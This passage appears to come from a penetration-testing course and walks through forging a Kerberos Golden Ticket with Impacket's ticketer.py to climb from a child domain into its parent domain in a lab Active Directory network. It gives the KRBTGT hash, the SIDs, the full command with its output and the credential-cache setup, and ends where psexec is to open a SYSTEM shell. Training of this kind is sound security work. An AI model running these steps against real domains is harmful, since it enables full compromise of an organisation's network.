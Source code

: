 We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user `hacker` to forge our Golden Ticket.

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).

#### Constructing a Golden Ticket using ticketer.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

#### Setting the KRB5CCNAME Environment Variable

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```

We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.
